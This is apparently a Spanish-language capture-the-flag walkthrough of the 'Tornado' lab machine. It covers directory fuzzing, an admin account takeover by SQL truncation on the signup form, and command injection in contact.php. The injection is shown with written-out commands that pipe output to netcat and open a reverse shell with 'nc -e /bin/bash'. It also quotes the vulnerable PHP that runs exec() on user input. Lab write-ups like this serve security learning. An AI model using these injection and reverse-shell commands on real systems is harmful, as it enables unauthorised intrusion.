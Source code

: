 

### Parte practica - Maquina Tornado

arrancamos con un arp-scan
```sh
arp-scan -I <interfaz> --localnet --ignoredups
```

luego de obtener la dierccion ip aplicamos un fuzzeo rapido con [[gobuster]] con 20 hilos

```sh
gobuster dir -u http://<ip> -w <diccionario> -t 20
```

> generalmente para gobuster ocupamos de seclists/Discovery/web-content/directory-list etc.

hay una ruta que es `/bluesky/`  

de esa ruta miramoos si tene archivos con extension .php

```sh
gobuster dir -u http://<ip>/bluesky -w <diccionario> -t 20 -x php
```

 me da un login.php, que parece ser vulnerable y un `signup.php` 

lo curioso se encuentra en el signup que al momento de crear un usuario el input donde se pone el correo y la clave para registrarse te deja como maximo una longitud de 13 caracteres. A modo de prueba nos hacemos una cuenta y en el home del usuario creado aparece un mensaje diciendo que *el LFI se parcheó*. al momento de ver el codigo fuente con `ctrl + u` nos salta abajo una ruta de home de un usuario.

> [!IMPORTANT]
> El servidor web es un apache y la ruta que contenia ese codigo fuente era la de un usuario "tornado"

con eso en mente, si ponemos en la url
```http
http://localhost/~/tornado/
```
> recordar que `~/` hace referencia al /home/`$USER`/ 

pero si hacemos esto y tocamos en el arcivo de `/imp.txt` a algo como esto

![[Pasted image 20250509041206.png]]

lo que a mi me importa son esa lista de correos, y por que? porque con eso son lista de usuarios, como el ceo, el cto el manager, etc.

ahora la pregunta, ¿para que era lo de la longitud del sign up? aqui es donde vamos a jugar con eso, ya que desde el cliente podemos modificar esa longitud en el input la podemos elevar a algo mayor que 13

si en la pantalla del el `sign up`  queremos utilizar un correo como el del admin que es `admin@tornado` tiene 13 de longitud e intentamos registrarnos no vamos a poder porque esta registrado, pero si reemplazamos la longitud del input y ponemos algo como esto

```
email: admin@tornado  a

contraseña: hacked 
```
nota los espacios, y la a al final, lo que va a hacer el servidor lo va a procesar como un usuario nuevo pero en la consulta borrara todo lo que supere la longitud de 13 caracteres, o sea el `__a` 

dando como resultado `admin@tornado`, entonces si tu haces eso lograste cambiar la contraseña del `admin@tornado` a *hacked*.

ademas dentro del panel de admin hay una pestaña de contact que te lleva a un contact.php que aparentemente esta utilizando un `exec()` o algo por el estilo
donde se pueden ejecutar comandos de linux. pero el output no te deja ver desde la pagina asi que por mi maquina de atacante me pongo en escucha con netcat

```sh
nc -nlvp 443
```

y del lado de la victima puedo lanzarle un whoami y redireccionar la salida a la ip atacante por ese puerto

```sh
test; whoami | nc <ip> <port>
```

y definitivamente puedo ver ese output que es `www-data`

por lo que al final si hacemos
```sh
test; nc -e /bin/bash <ip> <port>
```

si quieres tratar la TTY haciendo

```sh
script /dev/null -c bash
```

y ya explotaste una SQL Truncation



como extra si cateamos el contact.php vemos un 

```php
$cmd=$_POST['comment'];
echo $cmd;
exec($cmd);
```

